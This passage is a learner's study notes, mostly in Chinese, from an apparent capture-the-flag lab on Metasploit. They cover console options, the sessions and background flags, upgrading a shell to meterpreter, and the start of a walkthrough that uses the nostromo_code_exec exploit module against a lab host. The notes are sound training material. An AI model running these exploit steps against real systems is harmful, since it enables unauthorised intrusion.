 What option sets the architecture to be exploited? (不太懂这个）

```bash
ARCH
```

哪一个option用来设置发送给目标机器的payload

```bash
payload
```

当你设置完了全部要求的options，如何运行exploit

```bash
exploit
```

哪一个flag可以设为后台运行

```bash
-j
```

然后是列出全部的session和进入一个可交互的session中。其实都用命令`help sessions` 就可以查出来了

### section 3-Metasploit:meterpreter

metasploit是msf入侵成功后，和被入侵的机器进行交互的一个msf模块。具体的使用教程看这里：[https://www.cnblogs.com/backlion/p/9484949.html](https://www.cnblogs.com/backlion/p/9484949.html)

如何获取到的是cmdshell的机器，那么可以考虑把对面的机器作为跳板，升级为meterpreter

如何升级？

```bash
sessions -u <opt>
```

[Copy of View](https://www.notion.so/6f918dbfaaeb4649a6860208a9c96f43)

### Section3-Metasploit: Final Walkthrough

在一台机子上进行实战测试，目标主机在80端口上存在漏洞，能被msf的exploit/multi/http/nostromo_code_exec 模块利用。

参考：[https://ryankozak.com/hack-the-box-craft-traverxec/](https://ryankozak.com/hack-the-box-craft-traverxec/)

总是在exploit命令执行提示失败，查看网上网友[视频](https://www.youtube.com/watch?v=6USFMv6BWOc)[43:49]

第一步：选择模块

```rust
use exploit/multi/http/nostromo_code_exec
```

第二步 设置远程目标机器ip

```rust
set RHOSTS 10.10.129.133
```

第三步 设置远程目标机器端口
